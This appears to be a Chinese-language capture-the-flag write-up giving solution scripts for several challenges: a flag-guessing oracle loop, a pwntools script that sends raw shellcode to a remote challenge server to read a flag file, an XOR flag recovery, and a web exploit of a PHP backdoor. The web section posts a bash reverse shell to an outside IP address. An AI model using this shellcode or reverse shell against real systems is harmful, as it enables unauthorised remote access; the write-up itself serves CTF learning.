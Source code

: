 ```
        res = send(&#39;FLAG{&#39; + c1 + flag)
        print res.count(&#39;correct&#39;)
        if count != res.count(&#39;correct&#39;):
            count = res.count(&#39;correct&#39;)
            flag = c1 + flag
            test = send(&#39; &#39; + flag)
            print flag
            time.sleep(2)
```

## Pwn
我在 [這裡](https://github.com/VulnHub/ctf-writeups/blob/master/2015/ringzer0/shellcoding.md) 發現有個一系列關於 shellcode 題目的 write up，於是直接乾坤大挪移，改一些東西就拿來用了，接著就 do re mi so～
```
#coding=utf-8
from pwn import *
import time

p = remote(&#39;edu-ctf.csie.org&#39;, 10150)
context.binary = &#39;./shellc0de&#39;

payload = &#39;\x4c\x8d\x35\x8b\x56\x34\x12\x49\x81\xee\x78\x56\x34\x12\x6a\x2b\x59\x41\xfe\x0e\x49\x83\xc6\x01\xe2\xf7\x6b\x01\x5c\x54\x59\x54\x60\x55\x5f\x6b\x16\x5b\x10\x06\x54\x59\x35\x03\x
58\x57\x60\x5f\x10\x06\x51\x57\x58\x5f\x59\x60\x6b\x80\x5b\x10\x06\x54\x59\x35\x02\x51\x60\x10\x06\xc4&#39;

p.send(payload)
p.send(&#39;/home/shellc0de/flag\x00&#39;)
print p.recvall(1)
```

## Misc
打開 IDAPRO 發現有個陣列和一個字串 &#39;Do_you_know_why_my_teammate_Orange_is_so_angry?????&#39; 做 xor，但是要先輸入一個數字和一個 random 的數字相等才可以，所以我就自己 xor 了。(雖然好像也可以用 nop 把那個判斷蓋掉啦，只是懶得去找)
```
#coding=utf-8

v54 = &#39;Do_you_know_why_my_teammate_Orange_is_so_angry?????&#39;
v2_51 = [2, 35, 30, 62, 20, 34, 54, 5, 42, 13, 16, 0, 30, 27, 38, 41, 8, 11, 38, 43, 12, 12, 29, 2, 19, 0, 4, 49, 59, 45, 8, 0, 56, 18, 54, 7, 23, 48, 4, 28, 0, 18, 11, 4, 7, 11, 86, 75, 70
, 66]
flag = &#39;&#39;

for v1, v2 in zip(v54, v2_51):
    flag += chr(ord(v1) ^ v2)
print flag
```

## Web
把 $_GET[&#39;87&#39;] 變成 exec xor d00r， 也就是把 $x 變成 exec，這樣就可以執行 shell command 了。再來是 $c 的部分， $c 是字元 &#39;#&#39;，也就是 $_POST[&#39;#&#39;] 會變成 shell command。我想過兩個辦法，一個是 python -m SimpleHTTPServer，只是這個怎樣都不讓我連，所以最後就用 reverse shell 了。
```
#coding=utf-8
import requests

get = &#39;&#39;
for s1, s2 in zip(&#39;exec&#39;, &#39;d00r&#39;):
    get += chr(ord(s1) ^ ord(s2))
post = {}
post[&#39;#&#39;] = &#39;bash -i &gt;&amp; /dev/tcp/140.113.68.171/4546 0&gt;&amp;1&#39;
#post[&#39;#&#39;] = &#39;python -m SimpleHTTPServer 4546&#39;
```